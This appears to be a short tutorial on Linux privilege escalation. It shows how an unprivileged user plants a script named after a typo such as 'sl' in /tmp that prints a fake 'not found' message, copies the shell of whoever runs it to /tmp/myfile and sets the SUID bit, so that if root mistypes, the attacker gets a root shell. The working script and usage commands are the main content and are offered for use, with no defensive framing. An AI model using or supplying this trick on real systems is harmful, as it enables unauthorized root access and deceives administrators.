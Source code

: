 Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (wrong spelled ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P. You can also write multiple scripts with wrong spelled commands )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl , mroe etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user's, that executed our script, bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables SUID bit , so if it is a root user we will then execute the new script , as root.

When a root user accidentally types sl instead of ls on /tmp , he runs our executable and the /tmp/myfile is finally created .It is  important to execute the new file  with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.
